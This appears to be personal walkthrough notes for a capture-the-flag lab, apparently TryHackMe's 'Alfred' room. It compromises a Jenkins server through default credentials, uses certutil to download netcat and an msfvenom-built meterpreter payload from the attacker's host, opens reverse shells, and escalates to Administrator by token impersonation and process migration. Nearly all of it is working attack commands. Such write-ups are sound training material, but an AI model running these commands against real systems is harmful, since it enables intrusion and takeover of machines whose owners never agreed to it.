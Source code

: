 after scanning you find an open port on 8080 which turns out to be a jenkins login page

it still uses defaults of ```admin:admin```

Gets windows nc, put into jenkins build commands

```bash
certutil.exe -urlcache -split -f "http://<ip>:8000/tools/windows-connect/nc.exe" %tmp%\nc.exe
```

run another command while you have a nc listener

```bash
%tmp%\nc.exe <ip> 1234 -e cmd.exe
```

this will get your reverse shell and you can get the flag off bruce's desktop

generate a windows reverse shell file for meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.4.28.132 LPORT=5555 -f exe -o reboot.exe
```

get the file onto the computer

```bash
certutil.exe -urlcache -split -f "http://<ip>:8000/try-hack-me/offensive-pen-testing/alfred/reboot.exe"
```

have this running so it drops into the meterpreter shell when you execute

```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST <ip> set LPORT 5555 run
```

```
.\reboot.exe
```

view all the privileges

```
whoami /priv
```

```
You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.
```

```
To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token.
```

```
Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS
```